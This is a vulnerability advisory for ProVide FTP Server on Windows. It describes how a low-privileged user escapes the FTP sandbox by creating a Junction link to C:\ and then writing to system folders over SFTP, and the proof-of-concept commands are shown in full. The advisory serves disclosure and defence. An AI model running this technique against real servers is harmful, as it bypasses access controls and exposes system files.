# Jail Escape via Symlink

## Summary

It was identified that ProVide FTP Server (formerly zFTP) for Windows, doesn't enforce permission over Windows Symlinks or Junctions. As a result, a low privileged user (non-admin), can craft a Junction Link in a directory he has full control, breaking out of the sandbox.

## VulDB-Like Summary

A vulnerability has been found in ProVide FTP Server (formerly zFTP) for Windows up to v13.1 and classified as problematic. This vulnerability affects some unknown functionality. The manipulation with an unknown input leads to a sandbox bypass vulnerability. The CWE definition for the vulnerability is CWE-284. As an impact it is known to affect confidentiality, integrity, and availability.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-XXXX. The attack should be launched initiated locally. The exploitation needs multiple authentications to be performed. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

#### User 1 - Low Privileged FTP User

Root Directory: C:\Users\lowpriv\Desktop\
Permission on Root Directory: 
* Files: Read, Write, Delete, Append 
* Dirs: List, Make, Delete, +Subdirs

#### User 2 - Low Privileged Windows User

Windows User: lowpriv
Standard User, no admin rights

```
C:\Users\lowpriv\Desktop> whoami
lowpriv
C:\Users\lowpriv\Desktop> mklink /J escape C:\
Junction created for escape <<===>> C:\
C:\Users\lowpriv\Desktop> mkdir C:\Windows\security\audit\pwnd
Access is denied.
C:\Users\lowpriv\Desktop> sftp lowpriv@127.0.0.1
Connected to lowpriv@127.0.0.1.
sftp> dir
Google Chrome.lnk  desktop.ini        escape
sftp> mkdir /escape/Windows/security/audit/pwnd
sftp> cd /escape/Windows/security/audit/pwnd
sftp> pwd
Remote working directory: /escape/Windows/security/audit/pwnd/
sftp>
```

## Remediation

No remediation currently exists for the.

## References

* https://cwe.mitre.org/data/definitions/284.html
* https://cwe.mitre.org/data/definitions/501.html
* https://cwe.mitre.org/data/definitions/266.html 
